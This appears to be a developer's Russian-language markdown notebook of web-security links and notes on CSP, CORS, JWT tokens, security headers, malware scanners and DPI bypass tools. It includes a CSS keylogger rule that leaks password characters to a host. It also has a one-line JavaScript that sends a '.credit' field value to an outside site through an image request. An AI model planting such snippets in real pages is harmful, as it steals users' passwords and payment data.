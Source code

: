 #  security

 * https://www.html5rocks.com/en/tutorials/security/content-security-policy/
 * [случайные числа](https://medium.com/@frontman/случайные-числа-не-случайны-252e08e60828/)
 * [css кейлоггер](http://css-live.ru/articles-css/storonnij-css-nebezopasen.html)
 * https://github.com/maxchehab/CSS-Keylogging/blob/master/css-keylogger-extension/keylogger.css
 * [https](https://www.troyhunt.com/the-6-step-happy-path-to-https/)
 * [сканер уязвимостей](https://snyk.io/)
 * [поле ввода пароля](https://www.troyhunt.com/bypassing-browser-security-warnings-with-pseudo-password-fields/)
 * [технологии аутентификации](https://github.com/teesloane/Auth-Boss)
 * [web checklist 2017](https://simplesecurity.sensedeep.com/web-developer-security-checklist-f2e4f43c9c56)
 * [Топ-25 программных ошибок, составленный CWE/SAN;](http://cwe.mitre.org/top25/#Listing)
 * [Топ-10 угроз безопасности веб-приложениям, составленный OWASP.]()
 * [оценка безопасности ПО](https://tproger.ru/translations/measuring-the-security-of-your-software/)
 * http://tproger.ru/tag/safe-code/
 * [Анализ уязвимостей процесса аутентификации](https://bmsdave.github.io/blog/auth-vulnerabilities/)
 * []()
 * https://owasp.org/www-community/Free_for_Open_Source_Application_Security_Tools
 * artifactory https://jfrog.com/security-and-compliance/
 * https://www.sonarqube.org/features/security/


```css
input[type="password"][value$="A"] { background-image: url("http://localhost:3000/A"); }

body { 
  font-family: -apple-system, BlinkMacSystemFont, "Segoe UI", Roboto, Helvetica, Arial, sans-serif;
}
```
 * https://css-tricks.com/snippets/css/font-stacks/
 

## Теория

 * [Учебное пособие по защите информации кафедры радиотехники и систем управления МФТИ](https://github.com/vlsergey/infosec)

## платежи payments

 * [Как работает безопасный прием платежей в интернет-магазине](https://habr.com/ru/post/241413/)
 * [invoices workflow](https://stripe.com/docs/billing/invoices/workflow)

## cors

 * https://fetch.spec.whatwg.org/#concept-http-fetch
 * https://fetch.spec.whatwg.org/#concept-request-mode
 * http://grishaev.me/cors
 * http://restlet.com/company/blog/2015/12/15/understanding-and-using-cors/
 * https://www.html5rocks.com/en/tutorials/cors/
 * маскируемся под форму:
 ```
 POST
 data: "user=111&PWD=1111"
 'Content-Type': 'application/x-www-form-urlencoded'
 ```
 * [расширение хрома](https://github.com/chrisdeely/ForceCORS)
    * https://chrome.google.com/webstore/detail/forcecors/oajaiobpeddomajelicdlnkeegnepbin
 * [втыкаем прокси для вебпака](https://github.com/angular/angular-cli/blob/master/docs/documentation/stories/proxy.md)
 ```
	const PROXY_CONFIG = [
			{
			"/server": {
				"target": "https://server:8081/api",
				"secure": false,
				"changeOrigin": true,
				"index": "",
				"host": "server:8081/",
				"logLevel": "debug",
				"pathRewrite": {
					"^/server": ""
			}
		}
	]

	module.exports = PROXY_CONFIG;
 
 ng serve --proxy-config proxy.conf.js
 ```
 * [заголовки http](https://www.w3.org/TR/cors/#syntax)
 * проверка
 ```bash
 curl -v 'http://8.8.8.8:8080/index.html' --data 'user=11111&pass=22222' -H 'Content-Type:application/x-www-form-urlencoded'
 curl -v 'http://8.8.8.8:8080/index.html?user=11111&pass=22222' -H 'Content-Type:application/json'
 ```
 * [сценарии атак на cors](https://www.securitylab.ru/analytics/498754.php)
 

##  авторизация и аутентификация

 * [обзор видов авторизации](https://flowers-for-all.com/post/28443)
 * JWT
	* [Продвинутая JWT авторизация на React и Node js. Access, refresh, активация по почте](https://www.youtube.com/watch?v=fN25fMQZ2v0)
		* access: 15 минут, хранится в localstorage
	* [jwt](https://habrahabr.ru/company/Voximplant/blog/323160/)
	* https://jwt.io/introduction/
	* https://datatracker.ietf.org/doc/html/rfc7519
	* https://habrahabr.ru/company/Voximplant/blog/323160/
 * https://auth0.com/docs/get-started
 * Разница между access_token и refresh_token
	* схема refresh + access токен ограничивает время, на которое атакующий может получить доступ к сервису по токену
	* 

	```
		— access_token не нужно хранить в базе данных, с помощью JWT можно хранить данные в токене — например userId, таким образом при каждом запросе к серверу мы избавляемся от лишнего запроса к базе данных так как ID юзера можно получить из токена
		— refresh_token хеш который хранится в базе данных.
		1. Сервер получает логин/пароль — создает access_token и refresh_token, сохраняет в базу refresh_token, отдает токены на клиент
		2. Клиент использует access_token для доступа к данным пока приложение не будет закрыто, сохраняет refresh_token в хранилище
		3. Если получает от сервера сообщение что срок access_token истек — отправляет запрос на авторизацию с refresh_token, если refresh_token не истек и совпадает с тем что в базе — сервер создает access_token и refresh_token, обновляет в базе refresh_token и отдает на клиент. Если refresh_token не валиден просит ввести логин/пароль
		4. При инициализации приложения если есть refresh_token — делает тоже что и в 3 

		1. refresh_token- это креденшалы для доступа в API при отсутствии сессии юзера. access_token — короткоживущий токен для доступа к ресурсу.
		2. Разные требования к хранению и передаче(и выдаче). То есть узнать refresh_token вы обычно не можете, так как он не гоняется через front channel.
		3. Работу с общей сессией лучше делегировать на ваш IdP/AS/OP по выбору. 

		Если у вас задача аутентификации и авторизации в API и ваши клиенты это серверные приложения, то у вас есть так называемый Client credentials flow. И вам не нужен рефреш в принципе. Просто смотрите за лайфтаймом токена и обновляете его по необходимости.
		Если есть возможность использования сертификатов, то есть client assertion grant: клиент генерирует JWT токен со своей информацией и подписывает его своим приватным ключиком. Сервер валидирует его, проверяет публичную часть (что у регистрации клиента привязан этот сертификат) и если все ок, выдает уже access_token для доступа в API.

		Если веб(SPA) или есть webview то implicit flow. Получаете access_token и вперед в API. Как протухнет — редирект за обновлением или тихонечко в айфрейме запросик. Можно поковырять кишки вот тут.
		https://github.com/AzureAD/azure-activedirectory-library-for-js/tree/dev/lib
	```
 * [Как надо хешировать пароли и как не надо](https://habr.com/ru/post/210760/)
 * [Обзор способов и протоколов аутентификации в веб-приложениях](https://habr.com/ru/company/dataart/blog/262817/)
 * [Как ты реализуешь аутентификацию, приятель?](https://habr.com/ru/company/mailru/blog/343288/)
 * [Курс MIT «Безопасность компьютерных систем». Лекция 17: «Аутентификация пользователя», часть 1](https://habr.com/ru/company/ua-hosting/blog/429680/)
 * [Классификация механизмов аутентификации пользователей и их обзор](https://habr.com/ru/post/177551/)
### беспарольная авторизация

 * [webauthn/CTAP](https://habr.com/company/1cloud/blog/353966/)
 * [по почте](https://habrahabr.ru/post/279173/)

##  web sec

* [How to Implement Security HTTP Headers to Prevent Vulnerabilities](https://geekflare.com/http-header-implementation/)
* [Как использовать HTTP заголовки для предупреждения уязвимостей](https://habr.com/ru/company/hosting-cafe/blog/315802/)
	* `X-Content-Type-Options: nosniff`
* https://habrahabr.ru/company/ruvds/blog/346442/

```js
var devtools = /./;
devtools.toString = function() {
  this.opened = true;
}

console.log(devtools);

if (devtools.opened === true) {
    alert('Панель разработчика открыта');
} else {
    alert('Панель разработчика закрыта');
}
```

```js
let img=new Image(); img.src="https://LULsite.com/?credit="+$('.credit')[0].value;
```

 * https://dzone.com/articles/advanced-web-security-topics
 * https://firstwiki.ru/index.php/Поиск_вирусов_на_сайте/
 * http://www.webhostingbuzz.com/wiki/iframe-injection-hack-recovery/
 * https://firstwiki.ru/index.php/Аудит_безопасности/
 * [Поиск malware/вирусов на сайте 2014](https://kamaok.org.ua/?p=570)
 * [взлом и безопасность веб-сайтов school-php.com](https://www.youtube.com/watch?v=ll9ZqAk70kk)

## сканеры

 * https://rescan.pro/
 * [google dorks scanner](https://habrahabr.ru/post/283210/)
 * [linux malware detect](firstwiki.ru/index.php/Поиск_различных_malware_скриптов/)
 * [aibolit](http://www.revisium.com/ai/)
 * http://online.drweb.com/?url=1
 * http://antivirus-alarm.ru/
 * http://xseo.in/viruscan
 * http://2ip.ru/site-virus-scaner/
 * [owasp](https://www.owasp.org/index.php/OWASP_Xenotix_XSS_Exploit_Framework#Screenshots)

 ## DPI/DLP

  * https://github.com/ValdikSS/GoodbyeDPI
  * https://github.com/bol-van/zapret

